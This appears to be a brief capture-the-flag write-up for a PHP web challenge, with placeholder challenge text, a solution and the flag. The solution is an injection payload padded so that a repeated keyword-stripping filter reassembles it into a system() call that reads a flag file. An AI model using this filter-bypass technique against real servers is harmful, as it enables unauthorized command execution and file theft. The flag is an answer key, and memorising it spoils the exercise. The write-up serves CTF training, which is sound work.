 ## PHat Pottomed Girls (web 189 pts)  
### Challenge:  
```
Placeholder    
Line 1    
Line2    
Line3    
  
```
  
### Solution:  
<<<<????php syssyssyssystemtemtemtem('cacacacatttt /flflflflagagagag.php'); ????>>>>  
  
Flag: `flag{wait_but_i_fixed_it_after_my_last_two_blunders_i_even_filtered_three_times_:(((}`  
  
